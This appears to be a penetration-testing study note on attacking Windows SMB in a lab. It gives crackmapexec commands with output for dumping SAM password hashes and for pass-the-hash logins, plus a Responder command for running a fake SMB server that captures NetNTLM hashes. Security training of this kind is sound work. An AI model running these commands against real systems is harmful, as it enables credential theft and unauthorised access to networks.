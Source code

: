 #### Extract Hashes from SAM Database
* The Security Account Manager (SAM) is a database file that stores users' passwords

```sh
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
SMB         10.10.110.17 445    WIN7BOX  [+] Dumping SAM hashes
SMB         10.10.110.17 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         10.10.110.17 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.110.17 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
SMB         10.10.110.17 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
SMB         10.10.110.17 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
SMB         10.10.110.17 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

#### Pass-the-Hash (PtH)
* If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH)
* Allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password

```sh
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\Administrator:2B576ACBE6BCFDA7294D6BD18041B8FE (Pwn3d!)
```

#### Forced Authentication Attacks
* We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)
*  most common tool to perform such operations is the [Responder](https://github.com/lgandx/Responder)
* Create a fake SMB server 

```sh
responder -I <interface name>
```

* Suppose a user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\`
* In that case, all name resolutions will fail because the name does not exist, and the machine will send a multicast query to all devices on the network, including us running our fake SMB server
* This is a problem because no measures are taken to verify the integrity of the responses
